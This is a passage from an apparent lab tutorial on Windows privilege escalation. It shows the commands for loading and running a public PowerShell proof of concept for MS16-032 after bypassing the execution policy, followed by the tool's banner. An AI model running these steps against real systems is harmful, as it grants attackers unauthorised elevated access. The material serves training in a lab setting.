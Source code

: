 #### Exploiting MS16-032 with PowerShell PoC

Let's use a [PowerShell PoC](https://www.exploit-db.com/exploits/39719) to attempt to exploit this and elevate our privileges.

Windows Desktop Versions

```powershell
PS C:\htb> Set-ExecutionPolicy bypass -scope process

PS C:\htb> Import-Module .\Invoke-MS16-032.ps1
PS C:\htb> Invoke-MS16-032

         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]
```